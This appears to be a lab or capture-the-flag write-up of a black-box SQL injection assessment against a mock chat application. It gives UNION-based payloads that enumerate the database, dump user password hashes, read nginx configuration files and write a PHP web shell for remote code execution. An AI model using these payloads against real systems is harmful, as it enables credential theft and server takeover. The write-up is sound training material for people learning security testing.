










## Scenario

You have been contracted by `chattr GmbH` to conduct a penetration test of their web application. In light of a recent breach of one of their main competitors, they are particularly concerned with `SQL injection vulnerabilities` and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform an assessment specifically focused on testing for SQL injection vulnerabilities on the web application from a "black box" approach.


- What is the password hash for the user 'admin'?

```
$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU
```


**Remember to use HTTPS protocol to access the target otherwise it will return 400 BAD REQUEST and refuse to connect**. So, I went to the target. Below is how it looks.



We have the username => `admin` and since we don't know the password so we need to perform SQL injection in the password field.  After a testing the `username` and `password` field I found out its not vulnerable to SQL injection. So I moved to **Create an Account**.



Now I tried to input special characters in `username` input field but it gave a warning message below `invalid username. only alphanumeric characters are allowed`. So username has input sanitization. `password` field accepted 8 characters length, which would involve atleast 1 special character and numbers and string so `password` input field too has input validation. The `invitation code` accepted input in the mentioned format -> `4 letters-4 letters-4 numbers`. I tried to add a special character beside the format to check for SQL injection because the others didn't accept it. I send the request of create account to BurpSuite Intruder and added `SQLi` wordlist for payload and fuzzed each of those input fields individually but only `invitation code` field return `500` status code so it highly indicates that the server tried processing our input and obviously failed to make the request and hence vulnerable to SQL injection. Now normally server was responding with `302` requests but in `invitation code` its return `500` so its kind of suspicious.


## Creating Account

After adding our payload we send the request using the BurpSuite Repeater and we were able to successfully login!!!



## Logging into our- Account



We were able to use our credentials during registration to login to the target application. Here I noticed something interesting, **Search Bar**. I gave `'` as input and if you look at the URL, our input got added as the value for the parameter which indicates now the **Search Bar** is vulnerable to SQL injection. You can also try BurpSuite Intruder and check for `500` responses. I myself tested manually in the **Search Bar**.


## Understanding the Backend Query

From the above URL I deducted the SQL search bar query might look like ... `WHERE (SEARCH='<input>') AND (u=<id>)` . So I injected the below SQL payload.

```mysql
') OR 1=1-- -
```

If our understanding is correct then `')` will close the search query with parenthesis and `-- '` will include SQL comments making the remaining query non existent. Below is the output of what happened when I executed the payload inside the **Search Bar**.



This confirmed the presence of:

- Boolean-based SQLi
- UNION-based SQLi
- Support for comments (`-- -`)

## Checking number of Columns

The `') UNION SELECT 1,2,3,4-- '` Payload produces the below output which tells us that there are 4 columns and only 3 and 4 are displayed by the application. So we need to place 




## Database Enumeration

Now that we have found the number of columns and what columns we are being shown, we can start our database enumeration phase.

### Displaying Current Database

The current database name is `chattr` which was shown by injecting the below payload.

```mysql
') UNION select 1,2,database(),4-- -
```

### Databases Present 

The databases present are `information_schema` and `chattr`.

```mysql
') UNION select 1,2,schema_name,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

### Displaying tables in the current database

The tables present in the current database are `Users`, `InvitationCodes`, `Messages`.

```mysql
') UNION select 1, 2, TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='chattr'-- -
```

### Displaying Columns of a table

The columns present in the `Users` table are :-
- `UserID`
- `Username`
- `Password`
- `InvitationCode`
- `AccountCreated`

```mysql
') UNION select 1,2,COLUMN_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='Users'-- -
```

Since we were asked to get the password hash for **admin** we should now dump the data of the `Users` table and print the data of Username and Password columns.

### Dumping data from the table

```mysql
') UNION select 1, 2, Username, Password from chattr.Users-- -
```


- What is the root path of the web application?
	- **/var/www/chattr-prod**




### Reading Server Configuration File

```mysql
') UNION SELECT 1, 2,LOAD_FILE("/etc/nginx/nginx.conf"), 4-- -
```



The `include /etc/nginx/sites-enabled/*` inside the `nginx.conf` looked interesting so I loaded this file again using the below mentioned payload.

### Finding the Web Root Directory

After looking in the internet for probable files inside the `/etc/nginx/modules-enabled/` I came across a `default` file so I loaded that.

```mysql
') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/sites-enabled/default"),4-- -
```




So we found out that the web root directory is -> `root /var/www/chattr-prod`


- Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below.
	- ****

### Writing our WebShell inside Web Root Directory

```mysql
') UNION SELECT "",'<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/chattr-prod/shell.php'-- -
```

After executing the above command nothing happened, which is a good sign because that means our web shell was successfully written inside the web root directory of the target application.

### Getting the flag

Navigate to the URL mentioned below. 

```http
https://94.237.123.236:46383/shell.php?0=id
```


We get the above output as shown in the image which indicates we can execute commands in the server as we have gained **RCE**.



